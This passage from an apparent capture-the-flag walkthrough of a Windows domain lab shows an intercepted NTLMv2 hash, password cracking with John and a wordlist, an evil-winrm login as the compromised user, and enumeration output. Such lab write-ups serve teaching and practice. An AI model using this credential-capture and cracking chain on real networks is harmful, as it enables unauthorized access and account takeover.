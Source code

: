 We can see the intercepted NTLM hash fro responder:
```bash
[+] Listening for events...
[HTTP] NTLMv2 Client   : 10.10.226.131
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:581eb034fb28c39c:54A0D21F2C7F9C9FC662887D404ADBE6:010100000000
00003016F4F0AEBAD60[REDACTED]F4E9E879FB75EC17102D80D7E32C45E88740A0010000000
0000000000000000000000000000090000000000000000000000
[*] Skipping previously captured hash for WINDCORP\buse
```
now we can save it and decrypt with john:
```bash
echo '00003016F4F0AEBAD6[REDACTED]F4E9E879FB75EC17102D80D7E32C45E88740A00100000000000000000000000000000000000090000000000000000000000' > buse.hash 
```
now time to crack it:
```bash
john buse.hash -w=/usr/share/wordlists/rockyou.txt
```
output:
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]      (buse)
1g 0:00:00:02 DONE (2020-11-14 23:27) 0.3355g/s 993073p/s 993073c/s 993073C/s v0yage..uya051
Session completed
```
Finally we can log in as buse user:
```bash
evil-winrm -i windcorp.thm -u buse -p '[REDACTED]' 
```

# Brittanycr

We are in!<br>
Now we can run some enumeration commands:
```cmd
whoami /all
```
output:
```cmd
USER INFORMATION
----------------

User Name     SID
============= ============================================
windcorp\buse S-1-5-21-555431066-3599073733-176599750-5777


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
```